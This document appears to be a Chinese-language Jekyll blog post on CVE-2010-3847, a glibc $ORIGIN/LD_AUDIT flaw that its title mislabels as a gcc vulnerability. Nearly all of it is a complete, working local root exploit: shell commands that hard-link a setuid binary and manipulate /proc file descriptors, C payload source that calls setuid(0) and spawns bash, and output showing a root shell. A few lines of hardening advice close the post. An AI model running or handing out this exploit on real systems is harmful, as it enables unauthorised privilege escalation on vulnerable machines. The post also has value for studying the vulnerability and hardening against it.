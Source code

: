 ```yaml
---
layout: post
title: "CVE-2010-3847 gcc漏洞提权"
categories: security 
tags: 
---
```


## 概述：
elf/dl-load.c in ld.so in the GNU C Library (aka glibc or libc6) through 2.11.2, and 2.12.x through 2.12.1, does not properly handle a value of $ORIGIN for the LD_AUDIT environment variable, which allows local users to gain privileges via a crafted dynamic shared object (DSO) located in an arbitrary directory.

## 摘要：
$ORIGIN是代表在文件系统多级结构中所加载的可执行程序的位置的ELF替换序列。glibc的动态链接器展开特权应用的$ORIGIN替换的方式存在漏洞，本地用户可以通过创建到setuid应用的硬链接并通过LD_AUDIT强制展开$ORIGIN来获得权限提升，具体过程如下：

在/tmp下创建可控制的目录
{% highlight bash %}
$ mkdir /tmp/exploit
{% endhighlight %}

链接到suid二进制程序以更改$ORIGIN的定义
{% highlight bash %}
$ ln /bin/ping /tmp/exploit/target
{% endhighlight %}

打开到目标二进制程序的文件描述符
{% highlight bash %}
$ exec 3< /tmp/exploit/target
{% endhighlight %}

现在可通过/proc访问描述符
{% highlight bash %}
$ ls -l /proc/$$/fd/3
lr-x------ 1 taviso taviso 64 Oct 15 09:21 /proc/10836/fd/3 -> /tmp/exploit/target*
{% endhighlight %}

删除之前所创建的录
{% highlight bash %}
$ rm -rf /tmp/exploit/
{% endhighlight %}

/proc链接仍存在，但已标记为已被删除
{% highlight bash %}
$ ls -l /proc/$$/fd/3
lr-x------ 1 taviso taviso 64 Oct 15 09:21 /proc/10836/fd/3 -> /tmp/exploit/target (deleted)
{% endhighlight %}

使用负载DSO替换目录，使$ORIGIN成为到dlopen()的有效目标
{% highlight bash %}
$cat > payload.c
void __attribute__((constructor)) init()
{
 setuid(0);
 system("/bin/bash");
}
^D
$ gcc -w -fPIC -shared -o /tmp/exploit payload.c
$ ls -l /tmp/exploit
-rwxrwx--- 1 taviso taviso 4.2K Oct 15 09:22 /tmp/exploit*
{% endhighlight %}

通过LD_AUDIT强制/proc中的链接加载$ORIGIN
{% highlight bash %}
$ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
sh-4.1# whoami
root
sh-4.1# id
uid=0(root) gid=500(taviso)
{% endhighlight %}


## 防御措施：
- 权限最小化使用限制原则。
- 限制root ssh远程，启用sudo
- 使用key方式ssh登录
- mv /usr/bin/gcc /usr/bin/gccbackup && chmod 700 /usr/bin/gccbackup
